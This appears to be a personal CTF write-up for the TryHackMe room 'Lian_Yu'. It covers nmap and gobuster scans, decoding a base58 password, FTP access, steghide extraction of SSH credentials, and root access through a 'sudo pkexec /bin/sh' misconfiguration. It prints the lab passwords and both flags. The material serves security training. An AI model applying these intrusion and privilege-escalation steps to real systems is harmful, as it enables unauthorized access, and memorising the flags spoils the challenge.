 #+TITLE: lian-yu

* nmap
#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lian_yu]
└──╼ # nmap -sC -sV -oA nmap/scan 10.10.238.114
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-15 16:00 EST
Nmap scan report for 10.10.238.114
Host is up (0.10s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey:
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34172/tcp   status
|   100024  1          37158/tcp6  status
|   100024  1          40570/udp   status
|_  100024  1          55291/udp6  status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.09 seconds

#+end_src

* gobuster
#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lian_yu]
└──╼ # gobuster dir -u 10.10.238.114 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.114
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/15 16:14:36 Starting gobuster
===============================================================
/island (Status: 301)
Progress: 71614 / 87665 (81.69%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/15 16:26:44 Finished
===============================================================

#+end_src

* /island

[[file:./images/screenshot-01.png]]

* gobuster to the rescue
#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lian_yu]
└──╼ # gobuster dir -u 10.10.238.114/island -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.114/island
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/15 16:56:48 Starting gobuster
===============================================================
/2100 (Status: 301)
Progress: 12935 / 87665 (14.76%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/15 16:59:01 Finished
===============================================================

#+end_src

* http://10.10.238.114/island/2100/
[[file:./images/screenshot-03.png]]
#+begin_src html

<!DOCTYPE html>
<html>
<body>

<h1 align=center>How Oliver Queen finds his way to Lian_Yu?</h1>


<p align=center >
<iframe width="640" height="480" src="https://www.youtube.com/embed/X8ZiFuW41yY">
</iframe> <p>
<!-- you can avail your .ticket here but how?   -->

</header>
</body>
</html>

#+end_src


* more gobuster
#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lian_yu]
└──╼ # gobuster dir -u 10.10.238.114/island/2100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x ticket
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.114/island/2100
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     ticket
[+] Timeout:        10s
===============================================================
2020/11/15 17:04:56 Starting gobuster
===============================================================
/green_arrow.ticket (Status: 200)
Progress: 10480 / 87665 (11.95%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/15 17:08:28 Finished
===============================================================

#+end_src

* http://10.10.238.114/island/2100/green_arrow.ticket
[[file:./images/screenshot-04.png]]
: RTy8yhBQdscX
- what encoding could it be?

* enter cyberchef
[[file:./images/screenshot-06.png]]
- turns out to be base58
: !#th3h00d

* ftp
#+begin_src bash

root@kali:~/hax/ctf/thm/lian_yu# ftp 10.10.103.193
Connected to 10.10.103.193.
220 (vsFTPd 3.0.2)
Name (10.10.103.193:kali): vigilante
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 May 05  2020 .
drwxr-xr-x    4 0        0            4096 May 01  2020 ..
-rw-------    1 1001     1001           44 May 01  2020 .bash_history
-rw-r--r--    1 1001     1001          220 May 01  2020 .bash_logout
-rw-r--r--    1 1001     1001         3515 May 01  2020 .bashrc
-rw-r--r--    1 0        0            2483 May 01  2020 .other_user
-rw-r--r--    1 1001     1001          675 May 01  2020 .profile
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queens_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Dire
ctory send OK.
ftp>

#+end_src

* Leave_me_alone.png
- file header is corrupt
  enter hexeditor
  we fix the image header to match up with its extension type
: password

* aa.jpg
#+begin_src bash

root@kali:~/hax/ctf/thm/lian_yu/ftp# steghide extract -sf aa.jpg
Enter passphrase:
wrote extracted data to "ss.zip".
root@kali:~/hax/ctf/thm/lian_yu/ftp# ls
aa.jpg   Leave_me_alone.png   other_user  "Queen's_Gambit.png"   ss.zip
root@kali:~/hax/ctf/thm/lian_yu/ftp# unzip ss.zip
Archive:  ss.zip
inflating: passwd.txt
inflating: shado
root@kali:~/hax/ctf/thm/lian_yu/ftp# ls
aa.jpg   Leave_me_alone.png   other_user   passwd.txt  "Queen's_Gambit.png"   shado   ss.zip
root@kali:~/hax/ctf/thm/lian_yu/ftp# mkdir aa
root@kali:~/hax/ctf/thm/lian_yu/ftp# mv aa
aa/     aa.jpg
root@kali:~/hax/ctf/thm/lian_yu/ftp# mv aa.jpg passwd.txt shado ss.zip aa
root@kali:~/hax/ctf/thm/lian_yu/ftp# ls
aa   Leave_me_alone.png   other_user  "Queen's_Gambit.png"
root@kali:~/hax/ctf/thm/lian_yu/ftp# cd aa/
root@kali:~/hax/ctf/thm/lian_yu/ftp/aa# ls
aa.jpg  passwd.txt  shado  ss.zip
root@kali:~/hax/ctf/thm/lian_yu/ftp/aa# cat passwd.txt
This is your visa to Land on Lian_Yu Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.





root@kali:~/hax/ctf/thm/lian_yu/ftp/aa# ls
aa.jpg  passwd.txt  shado  ss.zip
root@kali:~/hax/ctf/thm/lian_yu/ftp/aa# cat shado
M3tahuman

#+end_src
- password
  : M3tahuman

* ssh
- we try to log in as Oliver but it doesnt work
  we remember that there was another user inside ftp called slade
#+begin_src bash

root@kali:~/hax/ctf/thm/lian_yu# ssh slade@10.10.214.39
slade@10.10.214.39's password:
Permission denied, please try again.
slade@10.10.214.39's password:
Way To SSH...
Loading.........Done..
Connecting To Lian_Yu  Happy Hacking

        ██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗
        ██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
        ██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
        ██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝
        ╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
         ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


                ██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
                ██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
                ██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
                ██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
                ███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
                ╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

slade@LianYu:~$

#+end_src

* user
#+begin_src bash

slade@LianYu:~$ cat user.txt
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
                                --Felicity Smoak

slade@LianYu:~$

#+end_src

* privesc
#+begin_src bash

slade@LianYu:~$ cd /usr/local/bin/
slade@LianYu:/usr/local/bin$ ls
slade@LianYu:/usr/local/bin$ ls -la
total 8
drwxrwsr-x  2 root staff 4096 Apr 25  2015 .
drwxrwsr-x 10 root staff 4096 May  1  2020 ..
slade@LianYu:/usr/local/bin$ cd ..
slade@LianYu:/usr/local$ ls
bin  etc  games  include  lib  man  sbin  share  src
slade@LianYu:/usr/local$ ls
bin  etc  games  include  lib  man  sbin  share  src
slade@LianYu:/usr/local$ cd sbin/
slade@LianYu:/usr/local/sbin$ ls
slade@LianYu:/usr/local/sbin$ cd ..
slade@LianYu:/usr/local$ ls
bin  etc  games  include  lib  man  sbin  share  src
slade@LianYu:/usr/local$ cd
slade@LianYu:~$ ls
user.txt
slade@LianYu:~$ sudo -l
[sudo] password for slade:
slade@LianYu:~$ sudo -l
[sudo] password for slade:
Matching Defaults entries for slade on LianYu:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
(root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ sudo /usr/bin/pkexec /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
                                      Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE.



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
                                                                                          --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825

#

#+end_src
